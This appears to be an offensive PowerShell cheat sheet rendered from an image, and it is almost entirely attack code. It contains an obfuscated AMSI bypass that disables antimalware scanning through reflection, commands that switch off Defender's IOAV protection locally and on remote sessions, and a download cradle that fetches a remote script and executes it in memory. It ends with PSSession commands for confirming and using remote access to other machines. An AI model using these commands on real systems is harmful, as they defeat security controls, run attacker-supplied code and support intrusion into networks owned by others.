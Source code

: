 ##### AMSI Bypass Obscure
`sET-ItEM ( 'V'+'aR' + 'IA' + 'blE:1q2' + 'uZx' ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( GeT-VariaBle ( "1Q2U" +"zX" ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System' ) )."g`etf`iElD"( ( "{0}{2}{1}" -f'amsi','d','InitFaile' ),( "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )`

##### AMSI Bypass
Set-MpPreference -DisableIOAVProtection $true

##### AMSI Bypass remotely
Invoke-command - ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session <session>

##### PS Download into memory 
iex (iwr http://<url>/<file>.ps1 -UseBasicParsing)

##### Quickly confirm you have remote access to a machine:
Invoke-Command -ScriptBlock {whoami;hostname} -ComputerName <Computer Name>

##### Create new PSSession to Computername
$sesh = New-PSSession -ComputerName <ComputerName>

##### Connect to Session by Session
Enter-PSSession -session <session name ie $sesh>

##### Connect to Session by ComputerName
Enter-PSSession -ComputerName <computer>
